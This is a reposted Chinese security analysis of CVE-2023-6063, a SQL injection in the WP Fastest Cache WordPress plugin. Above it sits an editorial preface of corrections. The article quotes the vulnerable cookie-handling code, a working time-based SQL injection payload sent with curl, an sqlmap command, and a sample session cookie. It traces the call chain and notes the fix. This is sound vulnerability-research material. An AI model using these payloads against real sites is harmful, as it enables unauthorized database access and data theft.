## 核对与使用边界

- 明确更正：代码只匹配 Cookie 名含 `wordpress_logged_in` 子串，原文要求必须修改哈希后缀过严；所示伪造名不代表必须先登录。
- 凭据辨别：这里 Cookie 的 SQL 表达式是技术载荷，不能按真实会话秘密整段遮罩。保留原始表达式；平台“WordPress 版本无限制”缺兼容性证明，须与插件缺陷版本范围分开。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;1.2.2, tested1.2.1; Cache System enabled; no genuine login needed

- **凭据与会话边界（1）**：Cookie名称正则只匹配wordpress_logged_in子串；文字要求更改哈希后缀过严，文中无后缀curl与之矛盾。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（2）**：WP版本无限制没有兼容性证据，需区分插件漏洞范围和平台兼容范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：调用链与修复主要截图；来源只xz.aliyun.com首页不能精准回溯文章。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **凭据与会话边界（4）**：伪造cookie名称不等于需要已登录。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入   
 船山信安   2023-12-18 00:01  
  
### 漏洞环境  
  
● wordpress 版本无限制● WP Fastest Cache 插件 <1.2.2，这里使用1.2.1版本启用 WP Fastest Cache 插件，并启用“缓存系统”  
  
  
  
漏洞点cache.php 。调用在漏洞分析部分分析  
  
  
  
public function is_user_admin(){global $wpdb;  
```
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```  
  
}  
### 漏洞复现  
  
记得改cookie 中 wordpress_logged_in的字符串，如wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93漏洞点在cookie的 wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处curl https://example.com -H "Cookie: wordpress_logged_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"  
  
sqlmap 证明：python sqlmap.py --dbms=mysql -u "http://your-url/wp-login.php" --cookie='wordpress_logged_in_732bf205f063fd120b84d8a0d44e2d5d=*' --level=2 --current-user  
  
  
### 漏洞分析  
  
简单说就是在加载插件时，取wordpress_logged_in 第一个 | 前的字符，然后插入到 SQL 语句中。而这样也是可以匹配的，即payload  
  
  
  
  
  
wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93内容如下：wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9这一部分的功能就是取出wordpress  
  
  
  
然后没有过滤就进入了SQL语句中  
  
  
  
is_user_admin() 被 createCache() 调用  
  
  
  
追踪 createCache()，被cache()调用  
  
  
  
  
  
看cache()在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用  
  
  
  
  
  
这两处创建了对象，看谁包含了wpFastestCache.php，继续跟，跟到plugin.php，大概就是插件加载时调用的  
  
  
  
  
  
  
### 漏洞修复  
  
WP Fastest Cache 插件 1.2.2，修复了此漏洞  
  
  
  
对参数进行了过滤  
  
  
  
  
  
来源：https://xz.aliyun.com/ 感谢【  
1570920802680446  
 】  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
